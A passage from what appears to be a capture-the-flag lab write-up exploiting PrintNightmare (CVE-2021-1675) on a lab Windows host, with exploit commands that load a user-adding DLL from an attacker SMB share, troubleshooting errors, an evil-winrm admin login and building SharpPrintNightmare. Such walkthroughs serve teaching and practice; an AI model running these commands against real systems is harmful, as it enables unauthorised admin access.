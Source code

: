 With all the pieces assembled, I can run the exploit. I’ll give it the creds
for the hazard user which work for an RPC connection, as well as the path to
the DLL on the SMB share:

    
    
    (venv) oxdf@parrot$ python3 CVE-2021-1675.py 'HEIST/hazard:stealth1agent@10.10.10.149' '\\10.10.14.200\share\AddUserDll.dll'
    [*] Connecting to ncacn_np:10.10.10.149[\PIPE\spoolss]
    [+] Bind OK
    [+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
    [*] Executing \\10.10.14.200\share\AddUserDll.dll
    [*] Try 1...
    [*] Stage0: 0
    [*] Stage2: 0
    [+] Exploit Completed
    

It worked!

If it throws an error, he’s what some troubleshooting showed me:

Error | Reason  
---|---  
`impacket.dcerpc.v5.rpcrt.DCERPCException: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied ` | permissions on the file in the SMB share  
`impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x525 - ERROR_NO_SUCH_USER - The specified account does not exist.` | user in `smbd.conf` doesn’t exist  
  
I can now log in as 0xdf with admin privs:

    
    
    oxdf@parrot$ evil-winrm -i 10.10.10.149 -u 0xdf -p 0xdf0xdf
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\0xdf\Documents> cd ..\..\administrator\desktop
    *Evil-WinRM* PS C:\Users\administrator\desktop> type root.txt
    50dfa3c6************************
    

### SharpPrintNightmare LPE/RCE

#### Build

Cube0x0’s repo has a Visual Studio project in it for `SharpPrintNightmare`.
I’ll download the repo to my Windows VM, and open `SharpPrintNightmare.sln` a
couple directories deep. I’ll select Built –> Build Solution, and it builds:

    
    
    1>------ Build started: Project: SharpPrintNightmare, Configuration: Release Any CPU ------
    1>  SharpPrintNightmare -> C:\Users\0xdf\Desktop\CVE-2021-1675-main\SharpPrintNightmare\SharpPrintNightmare\bin\Release\SharpPrintNightmare.exe
    ========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
    